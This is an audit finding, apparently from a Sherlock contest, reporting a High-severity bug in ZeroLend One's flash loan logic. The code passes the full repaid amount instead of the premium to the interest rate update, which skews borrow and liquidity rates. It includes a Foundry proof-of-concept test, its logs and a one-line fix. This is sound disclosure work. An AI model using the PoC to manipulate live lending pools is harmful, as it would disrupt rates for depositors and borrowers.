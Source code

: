 Big Admiral Dove

High

# Incorrect update of borrow & liquidity interest rates when postprocessing a flash loan

### Summary

When postprocessing a flash loan, the `FlashLoanLogic` provides wrong loan fee value to the interest rate strategy as a balance update that will cause highly incorrect calculation of liqiduity & borrow rate values.

### Root Cause

In [FlashLoanLogic.sol:L118](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/FlashLoanLogic.sol#L118) `amountPlusPremium` is wrongly provided instead of `_params.totalPremium`.

```solidity
  function _handleFlashLoanRepayment(
    DataTypes.ReserveData storage _reserve,
    DataTypes.ReserveSupplies storage _totalSupplies,
    DataTypes.FlashLoanRepaymentParams memory _params
  ) internal {
    ... ...

    _reserve.updateInterestRates(_totalSupplies, cache, _params.asset, IPool(_params.pool).getReserveFactor(), amountPlusPremium, 0, '', ''); // <-- @audit-issue

    ... ...
  }
```

### Internal pre-conditions

- A reserve should have some debt so that the protocol can update the borrow rate.

### External pre-conditions

_No response_

### Attack Path

A malicious actor just borrows a flash loan to destabilize the ecosystem of a reserve.

### Impact

After a flash loan, the balance change should be just a flash loan fee but the logic provides the entire loan repay as the balance change to update the interest rates.

Therefore excessively out-of-orbit interest rates will severely disrupt the normal deposit and borrowing operations.

### PoC

I added this test case to `PoolFlashLoanTests.t.sol`.
```solidity
  function test_simple_flashloan_underlyingbalance_poc() public {
    bytes memory emptyParams;
    MockFlashLoanSimpleReceiver mockFlashSimpleReceiver = new MockFlashLoanSimpleReceiver(pool);
    _generateFlashloanCondition();

    vm.prank(bob);
    pool.borrowSimple(address(tokenA), bob, 50 ether, 0);

    poolFactory.setFlashloanPremium(2);
    uint256 premium = poolFactory.flashLoanPremiumToProtocol();
    assertEq(premium, 2);

    DataTypes.ReserveSupplies memory reserveSuppliesData = pool.getTotalSupplyRaw(address(tokenA));
    console.log("underlyingBalance Before flash loan: ", reserveSuppliesData.underlyingBalance);
    console.log("Actual Balance Before flash loan: ", tokenA.balanceOf(address(pool)), "\n");

    vm.warp(block.timestamp + 1 hours);

    vm.startPrank(alice);

    vm.expectEmit(true, true, true, true);
    emit PoolEventsLib.FlashLoan(address(mockFlashSimpleReceiver), alice, address(tokenA), 1000 ether, (1000 ether * premium) / 10_000);
    emit Transfer(address(0), address(mockFlashSimpleReceiver), (1000 ether * premium) / 10_000);

    pool.flashLoanSimple(address(mockFlashSimpleReceiver), address(tokenA), 1000 ether, emptyParams);
    vm.stopPrank();

    reserveSuppliesData = pool.getTotalSupplyRaw(address(tokenA));
    console.log("underlyingBalance After flash loan: ", reserveSuppliesData.underlyingBalance);
    console.log("Actual Balance After flash loan: ", tokenA.balanceOf(address(pool)), "\n");

    DataTypes.ReserveData memory reserveData = pool.getReserveData(address(tokenA));
    console.log("Borrow Rate After flash loan: ", reserveData.borrowRate);
    console.log("Liquidity Rate After flash loan: ", reserveData.liquidityRate);
  }
```

Here are the logs after running `forge test --match-test test_simple_flashloan_underlyingbalance_poc -vv`.
```bash
Ran 1 test for test/forge/core/pool/PoolFlashLoanTests.t.sol:PoolFlashLoanTests
[PASS] test_simple_flashloan_underlyingbalance_poc() (gas: 1203761)
Logs:
  underlyingBalance Before flash loan:  1950000000000000000000
  Actual Balance Before flash loan:  1950000000000000000000

  underlyingBalance After flash loan:  2950200000000000000000 // Wrongly exceeded underlyingBalance
  Actual Balance After flash loan:  1950200000000000000000 

  Borrow Rate After flash loan:  3723033495027083612665660 // The correct value should be 7445322453155295630384002
  Liquidity Rate After flash loan:  93066569291342618100614 // The correct value should be 372191834611220613848101
```

### Mitigation

Just replace `amountPlusPremium` with `_params.totalPremium` from the issued line:

```diff
-   _reserve.updateInterestRates(_totalSupplies, cache, _params.asset, IPool(_params.pool).getReserveFactor(), amountPlusPremium, 0, '', '');
+   _reserve.updateInterestRates(_totalSupplies, cache, _params.asset, IPool(_params.pool).getReserveFactor(), _params.totalPremium, 0, '', '');
```
